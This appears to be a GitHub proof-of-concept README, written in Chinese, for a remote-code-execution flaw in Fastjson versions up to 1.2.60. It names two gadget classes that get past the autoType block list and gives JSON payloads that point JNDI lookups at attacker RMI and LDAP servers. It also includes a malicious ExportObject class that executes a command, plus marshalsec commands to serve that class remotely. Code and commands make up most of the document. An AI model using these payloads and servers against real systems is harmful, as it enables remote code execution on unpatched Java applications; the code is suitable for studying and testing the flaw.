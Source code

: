 # Fastjson <= 1.2.60 反序列化漏洞 

## By Pass autoType Block List with 2 Gadgets (JNDIConfiguration、OracleManagedConnectionFactory )

![](./Fastjson-1.2.60-RCE.gif)



## Gadgets
```
经过测试，命中的4个文件都是可以利用的。

不过其中HikariConfig类就是前文提到的类，在最新版本被加入黑名单，JNDIConnectionPool类在42版本前就被加入黑名单了。

另外的两个类JNDIConfiguration和 OracleManagedConnectionFactory都可以构造出攻击poc，且尚未被加入黑名单。

source/commons-configuration-1.9/org/apache/commons/configuration/JNDIConfiguration.java containsKey

source/commons-configuration-1.9/org/apache/commons/configuration/JNDIConfiguration.java getProperty

source/HikariCP-3.3.1/com/zaxxer/hikari/HikariConfig.java getObjectOrPerformJndiLookup

source/ojdbc14-10.2.0.2/oracle/jdbc/connector/OracleManagedConnectionFactory.java setupXADataSource

source/xalan-2.7.2/org/apache/xalan/lib/sql/JNDIConnectionPool.java findDatasource
```

### FastJsonTest.java
```
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;
import com.alibaba.fastjson.parser.ParserConfig;

public class FastJsonTest {
    public static void main(String[] args){

        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String jsonStr1 ="{\"@type\":\"oracle.jdbc.connector.OracleManagedConnectionFactory\",\"xaDataSourceName\":\"rmi://10.10.20.166:1099/ExportObject\"}";
        String jsonStr2 = "{\"@type\":\"org.apache.commons.configuration.JNDIConfiguration\",\"prefix\":\"ldap://10.10.20.166:1389/ExportObject\"}";
        JSONObject json = JSON.parseObject(jsonStr2);
        json.toJSONString();
    }
}
```

### ExportObject.java
```
import java.io.BufferedReader;
import java.io.InputStreamReader;

public class ExportObject {
    public ExportObject() throws Exception {
        Process proc = Runtime.getRuntime().exec("calc");
        BufferedReader br = new BufferedReader(new InputStreamReader(proc.getInputStream()));
        StringBuffer sb = new StringBuffer();

        String line;
        while((line = br.readLine()) != null) {
            sb.append(line).append("\n");
        }

        String result = sb.toString();
        Exception e = new Exception(result);
        throw e;
    }

    public static void main(String[] args) throws Exception {
    }
}

```

## RMI RefServer

`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://192.168.2.18:8000/#ExportObject`

## LDAP RefServer

`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://192.168.2.18:8000/#ExportObject`

![](./1.2.60.png)

## 参考链接：

https://mmbiz.qpic.cn/mmbiz_png/f2yQgjGph7MnkCl1YEUxd6Q8mDjQkicxL7JuOFjxlOjWwQtWyYQzjE5yYkSuJVwic9qdnmRYXTtEJqxM3Efc1lYw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1

https://www.freebuf.com/articles/web/213327.html

https://mp.weixin.qq.com/s?__biz=MzUyNTk1NDQ3Ng==&mid=2247484350&idx=1&sn=de51dd5707a2ff5464423407195e9177&scene=21#wechat_redirect
